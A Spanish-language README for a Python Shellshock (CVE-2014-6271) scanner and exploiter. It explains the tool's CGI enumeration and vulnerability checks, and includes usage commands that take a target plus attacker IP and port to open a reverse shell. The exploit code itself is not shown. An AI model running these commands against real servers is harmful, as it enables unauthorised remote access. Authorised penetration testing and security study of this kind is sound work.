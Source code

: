 # Shellshock Scanner y Explotador

Este script de Python es una herramienta para detectar y explotar la vulnerabilidad Shellshock (CVE-2014-6271) en servidores web que utilizan scripts CGI.

## Descripción

Shellshock es una vulnerabilidad crítica que afecta a la shell Bash y permite a un atacante ejecutar comandos arbitrarios a través de variables de entorno. Esta herramienta automatiza:

- La detección de scripts CGI accesibles en el servidor objetivo
- La verificación de vulnerabilidad Shellshock en cada script encontrado
- La explotación para obtener una shell reversa

## Requisitos

La herramienta requiere las siguientes dependencias:
- Python 3
- gobuster
- curl
- netcat (nc)

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/usuario/shellshock-scanner.git
cd shellshock-scanner

# Hacer el script ejecutable
chmod +x shellshock_scanner.py

# Verificar dependencias (el script comprobará automáticamente)
sudo apt install gobuster curl netcat-traditional
```

El script verificará e instalará automáticamente las dependencias necesarias. 

## Uso

```bash
./shellshock_scanner.py -h
```

Puedes especificar un diccionario para gobuster, en caso de no hacerlo usará uno por defecto y si no lo encuentra usará una lista de palabras predefinida.

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --attacker-port 4444 --wordlist /usr/share/wordlists/dirb/common.txt
```

Para probar un script CGI específico:

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --cgi-script test.cgi
```

## Proceso de funcionamiento

1. **Verificación de dependencias**: El script comprueba e instala todas las herramientas necesarias.
2. **Enumeración**: Utiliza gobuster para encontrar scripts CGI en el directorio `/cgi-bin/` del servidor.
3. **Detección**: Verifica la vulnerabilidad Shellshock en cada script encontrado.
4. **Explotación**: Para los scripts vulnerables, intenta obtener una shell reversa.

## Características adicionales

- Creación automática de un wordlist básico si no se encuentra ninguno.
- Múltiples payloads para aumentar las probabilidades de éxito.
- Comprobación manual de scripts CGI específicos.

## Consideraciones legales

Esta herramienta está diseñada únicamente para fines educativos y de pruebas de penetración autorizadas. El uso de esta herramienta contra sistemas sin permiso explícito es ilegal y puede resultar en consecuencias legales.
